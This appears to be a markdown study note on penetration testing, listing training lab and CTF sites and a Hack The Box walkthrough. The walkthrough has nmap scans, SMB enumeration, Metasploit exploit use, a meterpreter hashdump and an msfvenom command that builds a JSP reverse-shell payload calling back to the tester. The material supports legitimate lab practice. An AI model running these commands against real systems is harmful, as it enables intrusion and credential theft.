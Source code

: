 # training labs
- https://Hackthis.co.uk
- https://www.hackthebox.eu/
- https://Vulnhub.com
- https://www.hackerone.com/start-hacking
- https://www.virtualhackinglabs.com/labs/penetration-testing-lab/
- https://www.hackthissite.org/
- https://cryptopals.com/
- http://opensecuritytraining.info/HTID.html
- http://www.dvwa.co.uk/
- https://information.rapid7.com/download-metasploitable-2017.html
  
# games
- https://ctftime.org/

# Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access

## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip
      1. 8080/tcp                # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   #1000 UDP ports
   4. $info = **smb weakness**
      1. google search $info exploit 
         1. exploit-db.com
         2. rapid7.com
3. `Gaining access`
   1. smbclient -L \\\\$ip\\      # found smb service
      1. try to crawl folders
   2. msfconsole                  # Rapid7 Metasploit
      1. search $smb_version # $keyword
      2. use $exploit/aux
      3. options
      4. show
      5. set $var $value
      6. exploit or run
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. hashdump # get the SAM, pass the hash around
      5. find user.txt, or root.txt and submit to hackthebox.eu
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
5. `Clearing tracks`
6. Capture the flag (CTF)
   1. tag web with contents of user.txt
